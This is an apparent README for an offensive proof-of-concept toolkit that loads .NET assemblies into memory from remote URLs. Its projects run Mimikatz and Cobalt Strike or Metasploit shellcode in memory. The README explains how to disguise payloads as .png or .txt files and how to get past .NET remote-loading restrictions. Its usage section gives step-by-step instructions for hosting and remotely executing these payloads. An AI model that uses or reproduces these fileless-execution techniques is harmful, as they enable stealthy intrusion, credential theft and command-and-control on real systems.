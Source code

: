 PoC for demonstrating different some methods for .NET assembly local/remote loading/injection into memory using System.AppDomain.ExecuteAssembly() and System.Reflection.Assembly.LoadFrom() method (check "NetAssembly-Injection/AssemblyLoader.cs" methods documentation).

The following projects are included in the VS2015 solution:

- KatzNetAssembly: A slightly modified version of @Subtee C# PE loader for injecting/running Mimikatz in memory using C#.

- ShellCodeLoader: A shellcode loader pinvoking unmanaged code (virtualalloc, createthread and waitforsingleobject) and injecting/executing shellcode in memory,
				 It can be used for bootstraping and executing coblat strike or msf generated shellcode.

- NetAssembly-Injection: Wraps 2 methods for remote/dynamic loading and execution of .NET assemblies in memory via AppDomain.ExecuteAssembly() and Assembly.LoadFrom().
						 (the third method "Load" was already demonstrated online by @malcomvetter)


Details:

 Method 1:

	-AppDomain can be used to create a sample container/sandbox to execute .NET assemblies within a restricted/sandboxed domain, 
	  it is usually used by developers to restrict access to local/remote resources for security purposes. 
      for instance, it can be used for restricting a third-party developed/used code to access the filesystem or network shares.

	-By default .NET applications are running under the default domain which restricts accessing remote resources, 
	  nonetheless it is possible to create domains with unrestricted permission states (PermissionSet(PermissionState.Unrestricted))
      for loading remote .NET assemblies and executing their main entry point.

	-The AppDomain.ExecuteAssembly("https://remote-host/assembly.exe") method takes a URL representing our hosted .NET assembly,
	  loads it into memory and execute it. (no need to instantiate a specific type or invoke its methods, 
      by default the main entry of the assembly is invoked/executed.)
 
	-Based on MSDN, ExecuteAssembly is leveraging Assembly.LoadFile() (in the background) for assembly loading/execution.

	-Assemblies can be renamed and modified extensions can be used ex: https://remote-host/assembly.png or .js, .txt, .html ..etc.
	  (assembly.exe renamed to assembly.png)

	-More details on:
		https://docs.microsoft.com/en-us/dotnet/api/system.appdomain.executeassembly?redirectedfrom=MSDN&view=netframework-4.7.2#overloads
		https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfile?view=netframework-4.7.2


 Method 2:

	-Loads an assembly from a URL, create an instance based on a type (Class) containing a sepcific method name then invoke the method name.

	-Loading an assembly from a network location is by default now allowed due to default .NET framework CAS policy configuration, 
	 a FileLoadNotFound Exception will be thrown if '<runtime><loadFromRemoteSources enabled = "true" /></runtime>' is not specified in App.config
	 System.Reflection.Assembly.UnsafeLoadFrom() method can be used instead.

	-More detais on: 
	 https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfrom?view=netframework-4.7.2






Example - Usage: 

Example 1:

 Running Mimikatz: Build KatzNetAssembly project, copy the generated "bin/debug/KatzNetAssembly.exe" .NET assembly/binary to a remote web server, then use (NetAssembly-Injection project) Method1() or Method2() to 
 load and execute (in-memory) the remote "KatzNetAssembly.exe" binary.

Example 2:

 Generate x64 Shellcode via cobalt strike or msf, replace the shellcode byte array with your own (in ShellCodeLoader project Program.cs), build the ShellCodeLauncher project, upload 
 the resulted assembly/binary "bin/debug/ShellCodeLoader.exe" to a remote web server, then use (NetAssembly-Injection project) Method1() or Method2() for remote loading/execution.				
